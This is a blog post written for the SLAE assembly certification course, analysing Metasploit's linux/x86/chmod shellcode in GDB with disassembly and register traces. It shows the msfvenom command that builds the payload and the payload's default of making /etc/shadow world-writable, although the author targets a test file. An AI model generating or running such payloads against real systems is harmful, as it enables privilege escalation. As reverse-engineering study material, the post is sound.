```yaml
---
layout: post
title:  "SLAE Assignment 5.3 - Msfvenom linux/x86/chmod shellcode Analysis"
date:   2017-04-26
category: Certification
excerpt_separator: <!--more-->
hidden: true
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
### Assignment 5.3:  
  
**Our Goal:**  
> *Take up at least 3 linux/x86 shellcodes using Msfpayload (now Msfvenom)*
 - *Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode*
 - *Present your analysis*  
<!--more-->
  
Hello everybody,  
  
Here we are for the last shellcode of the msfvenom serie. We will use this time the **linux/x86/chmod** shellcode and will analyse it thanks to GDB:  
```bash
# msfvenom -p linux/x86/chmod --payload-options
Options for payload/linux/x86/chmod:


       Name: Linux Chmod
       Module: payload/linux/x86/chmod
       Platform: Linux
       Arch: x86
       Needs Admin: No
       Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current          Setting     Required  Description
----  ---------------  --------    -----------
FILE  /etc/shadow      yes         Filename to chmod
MODE  0666             yes         File mode (octal)

Description:
  Runs chmod on specified file with specified mode
...
```
  
Let's generate the ELF:  
```bash
# msfvenom -p linux/x86/chmod FILE=/tmp/slae.txt -f elf -o chmod_slae
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 38 bytes
Final size of elf file: 122 bytes
Saved as: chmod_slae
# ls -l /tmp/slae.txt 
-r--r--r-- 1 root root 0 avril 22 04:54 /tmp/slae.txt
# chmod +x ./chmod_slae && ./chmod_slae
# ls -l /tmp/slae.txt 
-rw-rw-rw- 1 root root 0 avril 22 04:54 /tmp/slae.txt
```
  
Perfect we see that our file **/tmp/slae.txt** has now the octal right **666** standing for **rw-rw-rw-**.  Let's have a look in gdb:  
```
# readelf -h ./chmod_slae
...
Adresse du point d'entrée:    0x8048054 
...
# gdb -q ./chmod_slae 
Reading symbols from ./chmod_slae...(no debugging symbols found)...done.
gdb-peda$ br *0x8048054
Breakpoint 1 at 0x8048054
gdb-peda$ run
gdb-peda$ disas $eip,+38
Dump of assembler code from 0x8048054 to 0x804807a:
=> 0x08048054:	cdq    
   0x08048055:	push   0xf
   0x08048057:	pop    eax
   0x08048058:	push   edx
   0x08048059:	call   0x804806c
   0x0804805e:	das    
   0x0804805f:	je     0x80480ce
   0x08048061:	jo     0x8048092
   0x08048063:	jae    0x80480d1
   0x08048065:	popa   
   0x08048066:	gs cs je 0x80480e2
   0x0804806a:	je     0x804806c
   0x0804806c:	pop    ebx
   0x0804806d:	push   0x1b6
   0x08048072:	pop    ecx
   0x08048073:	int    0x80
   0x08048075:	push   0x1
   0x08048077:	pop    eax
   0x08048078:	int    0x80
End of assembler dump.
```

Let's add some breakpoints on interesting opcodes:  
```bash
gdb-peda$ br *0x0804806c
Breakpoint 2 at 0x804806c
gdb-peda$ br *0x08048073
Breakpoint 3 at 0x8048073
gdb-peda$ br *0x08048078
Breakpoint 4 at 0x8048078
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0xf 
EBX: 0x0 
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xbffff2c8 --> 0x804805e ("/tmp/slae.txt")
EIP: 0x804806c --> 0x1b6685b
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048065:	popa   
   0x8048066:	gs cs je 0x80480e2
   0x804806a:	je     0x804806c
=> 0x804806c:	pop    ebx
   0x804806d:	push   0x1b6
   0x8048072:	pop    ecx
   0x8048073:	int    0x80
   0x8048075:	push   0x1
[------------------------------------stack-------------------------------------]
0000| 0xbffff2c8 --> 0x804805e ("/tmp/slae.txt")
0004| 0xbffff2cc --> 0x0 
0008| 0xbffff2d0 --> 0x1 
0012| 0xbffff2d4 --> 0xbffff478 ("/root/Documents/pentest/certs/slae/exam/assignment5.3/chmod_slae")
0016| 0xbffff2d8 --> 0x0 
0020| 0xbffff2dc --> 0xbffff4b9 ("XDG_VTNR=2")
0024| 0xbffff2e0 --> 0xbffff4c4 ("XDG_SESSION_ID=2")
0028| 0xbffff2e4 --> 0xbffff4d5 ("SSH_AGENT_PID=1067")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```  
  
Notice that we are using [gdb-peda](https://github.com/longld/peda).  Thanks to the call technique the next instruction ``` pop ebx ``` will pop the address of the string */tmp/slae* in the EBX register.  
  
So we will have:  
```bash
EAX: 0xf 
EBX: 0x804805e (/tmp/slae.txt) 
```  
  
Finally if we stop at the address **0x8048073** just before our syscall:  
```bash
EAX: 0xf 
EBX: 0x804805e ("/tmp/slae.txt")
ECX: 0x1b6 
```
  
We will call ``` int chmod(const char *pathname, mode_t mode); ```. The second argument **0x1b6** is **666** in octal:  
```bash
# printf "%o\n" 0x1b6
666
```  
  
Let's go to the following breakpoint:  
```bash
EAX: 0x1 
EBX: 0x804805e (/tmp/slae.txt) 
```
  
We will call ``` void _exit(int status); ```, the exit status is not important in a shellcode execution context, so we won't add an opcode to set EBX.  

Finally, our shellcode will change the permissions of our file:  
```bash
gdb-peda$ n
[Inferior 1 (process 24785) exited with code 0136]
Warning: not running or target is remote
```
  
So we just finished our msfvenom shellcodes serie. Soon we will deal with polymorphic shellcodes and crypters.  
Hope you enjoyed this post.    
  
[Phackt](https://twitter.com/phackt_ul)